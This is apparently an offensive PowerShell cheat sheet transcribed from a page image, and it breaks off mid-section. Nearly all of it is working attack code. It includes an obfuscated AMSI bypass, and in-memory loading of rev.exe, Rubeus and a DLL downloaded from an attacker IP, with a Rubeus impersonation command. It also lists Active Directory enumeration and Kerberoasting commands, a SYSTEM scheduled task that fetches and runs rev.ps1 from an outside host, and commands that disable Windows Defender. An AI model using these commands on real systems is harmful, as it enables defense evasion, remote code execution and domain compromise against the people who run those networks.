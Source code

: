 ```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
### Reflectively Loading C# in PowerShell (Requires AMSI Bypass)
```powershell
# Running PE file that doesn't expect any arguments
# -----------------------------------------------------
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# Running PE file that does expect arguments (Rebeus example)
# -----------------------------------------------------
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Executing a specific method from a loaded DLL 
# -----------------------------------------------------
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
### Active Directory Enumeration with PowerView
```powershell
Get-DomainUser | Select -ExpandProperty cn
Get-DomainComputer
Get-ForestDomain
Get-DomainGroup "Domain Admins"
Get-DomainGroupMember "Domain Admins" | Select -ExpandedProperty membername
Find-DomainShare -ExcludeStandard -ExcludePrint -ExcludeIPC
Get-DomainOU -FullData
# Noisy command
Find-LocalAdminAccess
Get-DomainUser -SPN | select name, serviceprincipalname
# Kerberoasting
Get-DomainSPNTicket -SPN "MSSQLSvc/sqlserver.evilcorps.com"
```
### Creating a Scheduled Task
```
# Create a task
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.evilcorp.com /sc weekly /tr "powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://37.37.37.37/rev.ps1''')'"
# Run the task
schtasks /RUN /TN "shell" /s dc.targetdomain.com
```
### Manipulating Windows Defender
```
# Turn off Realtime Monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Turn off scans for downloaded files and attachments
Set-MpPreference -DisableIOAVProtection $true

# Exclude a directory from scans
```